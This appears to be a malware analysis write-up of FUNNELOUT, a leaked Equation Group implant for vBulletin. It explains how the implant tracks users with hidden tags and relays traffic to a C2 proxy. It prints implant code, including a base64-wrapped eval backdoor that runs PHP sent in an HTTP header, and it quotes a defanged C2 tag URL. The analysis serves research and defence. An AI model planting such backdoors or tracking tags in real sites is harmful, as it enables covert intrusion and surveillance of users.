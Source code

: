 # FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
'<img src="images/' . bin2hex(substr(\$u,0,14)) . ".gif" . '" height="1" width="1" style="visibility:hidden">'
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.

![Kaspersky, example found in the wild](../assets/images/funnelout_kaspersky.png)

([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.

